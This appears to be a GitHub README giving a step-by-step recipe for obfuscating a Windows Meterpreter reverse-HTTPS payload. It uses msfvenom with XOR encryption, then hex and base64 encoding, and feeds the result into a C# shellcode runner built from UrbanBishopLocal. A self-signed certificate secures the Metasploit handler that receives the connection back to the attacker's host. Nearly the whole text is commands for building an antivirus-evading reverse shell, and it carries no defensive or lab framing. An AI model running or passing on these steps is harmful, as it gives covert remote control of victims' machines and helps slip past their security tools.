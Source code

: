 # Payload-Obfuscation
Some Usefull tools and specific modus operanti to obfuscate payload  

### Payload generation

```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<OurIPADRESS> LPORT=443 --encrypt xor --encrypt-key <helloworld> --format raw > testf
```  
<helloworld> are the key but we can write what we want.  

### Hex data dump

```sh
hexdump -v -e '"\\""x" 1/1 "%02x" ""' <testf>
```  

### Convert data to Base64  
```sh
base64 <testf> > <newtest>
```

### Generate Key and certificate to obfuscate more seriously
```sh
openssl req -newkey rsa:4096 \
            -x509 \
            -sha256 \
            -days 3650 \
            -nodes \
            -out example.crt \
            -keyout example.key
```  
- Concatenate two files in one 

example.key & example.crt > example.pem

### UrbanBishopLocal (for compile c# progam)  
- https://github.com/slyd0g/UrbanBishopLocal  
on windows machine install git, netcore and vscode, in the vscode install the c# extension  
```sh
dotnet new console -o <nameofproject>
cd <nameofproject>
code . (allowing to open the progam.cs in vscode directly)
```   
--> in this part we will make a copy of the code in the UrbanBishopLocal folder which named program.cs --> it's template to make the obfuscation of our payload (just copy our base64 code at the end progam.cs), but also we specified the same key which we are defined in the msfvenom part.
#### don't forget the c# extension  

```sh
dotnet build
```  
### Metasploit

```sh
msfconsole  
use exploit/multi/handler  
set HandlerSSLCert </home/PATH/TO/THE/example.pem> (of the key we are generate earlier)  
set StagerVerifySSLCert true  
set LHOST <ourIPADRESS>  
set LPORT 443  
exploit
```  
